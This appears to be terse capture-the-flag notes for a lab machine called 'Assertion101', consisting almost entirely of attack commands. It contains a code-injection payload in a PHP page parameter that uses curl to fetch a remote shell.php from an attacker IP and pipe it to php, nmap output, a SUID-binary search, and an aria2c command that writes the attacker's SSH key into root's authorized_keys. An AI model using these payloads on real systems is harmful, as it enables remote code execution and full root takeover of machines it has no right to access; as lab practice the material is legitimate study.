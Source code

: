 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Assertion101
# 25/2/2023

----------------------------------------------------
# LFI 
```
http://192.168.141.94/index.php?page=gallery

' and die(system("curl http://<ip>/shell.php|php")) or '
```
----------------------------------------------------
# nmap result
----------------------------------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
----------------------------------------------------
# priv esc
----------------------------------------------------
```
find / -perm -u=s -type f 2>/dev/null 
aria2c

transfer ssh pub file in client
/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.141/id_rsa.pub" --allow-overwrite=true
```
